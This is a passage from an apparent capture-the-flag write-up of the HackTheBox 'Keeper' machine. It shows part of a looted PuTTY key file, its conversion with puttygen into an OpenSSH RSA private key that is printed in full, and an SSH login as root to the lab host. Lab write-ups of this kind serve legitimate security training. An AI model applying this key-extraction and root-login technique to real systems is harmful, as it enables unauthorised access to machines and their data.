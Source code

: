 ```
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

We can use `puttygen` to extract the private SSH key:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/keeper/RT30000]
└─$ /usr/bin/puttygen ssh_key -O private-openssh -o id_rsa
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/hackthebox/keeper/RT30000]
└─$ cat id_rsa     
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
MO8CC+eqgtvMOqv6oZtixjsV7qevizo8RjTbQNsyd/D9RU32UC8RVU1lCk/LvI7p
5y5NJH5zOPmyfIOzFy6m67bIK+csBegnMbNBLQIDAQABAoIBAQCB0dgBvETt8/UF
NdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6joDni1wZdo7hTpJ5Zjdmz
wxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCihkmyZTZOV9eq1D6P1uB6A
XSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputYf7n24kvL0WlBQThsiLkK
cz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzTVkCew1DZuYnYOGQxHYW6
WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivzUXjcCAviPpmSXB19UG8J
lTpgORyhAoGBAPaR+FID78BKtzThkhVqAKB7VCryJaw7Ebx6gIxbwOGFu8vpgoB8
S+PfF5qFd7GVXBQ5wNc7tOLRBJXaxTDsTvVy+X8TEbOKfqrKndHjIBpXs+Iy0tOA
GSqzgADetwlmklvTUBkHxMEr3VAhkY6zCLf+5ishnWtKwY3UVsr+Z4f1AoGBAK28
/Glmp7Kj7RPumHvDatxtkdT2Iaecl6cYhPPS/OzSFdPcoEOwHnPgtuEzspIsMj2j
gZZjHvjcmsbLP4HO6PU5xzTxSeYkcol2oE+BNlhBGsR4b9Tw3UqxPLQfVfKMdZMQ
a8QL2CGYHHh0Ra8D6xfNtz3jViwtgTcBCHdBu+lZAoGAcj4NvQpf4kt7+T9ubQeR
RMn/pGpPdC5mOFrWBrJYeuV4rrEBq0Br9SefixO98oTOhfyAUfkzBUhtBHW5mcJT
jzv3R55xPCu2JrH8T4wZirsJ+IstzZrzjipe64hFbFCfDXaqDP7hddM6Fm+HPoPL
TV0IDgHkKxsW9PzmPeWD2KUCgYAt2VTHP/b7drUm8G0/JAf8WdIFYFrrT7DZwOe9
LK3glWR7P5rvofe3XtMERU9XseAkUhTtqgTPafBSi+qbiA4EQRYoC5ET8gRj8HFH
6fJ8gdndhWcFy/aqMnGxmx9kXdrdT5UQ7ItB+lFxHEYTdLZC1uAHrgncqLmT2Wrx
heBgKQKBgFViaJLLoCTqL7QNuwWpnezUT7yGuHbDGkHl3JFYdff0xfKGTA7iaIhs
qun2gwBfWeznoZaNULe6Khq/HFS2zk/Gi6qm3GsfZ0ihOu5+yOc636Bspy82JHd3
BE5xsjTZIzI66HH5sX5L7ie7JhBTIO2csFuwgVihqM4M+u7Ss/SL
-----END RSA PRIVATE KEY-----
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/hackthebox/keeper/RT30000]
└─$ 
```

That done, we can finally login as root:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/keeper/RT30000]
└─$ ssh -i id_rsa root@10.10.11.227       
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# 
```
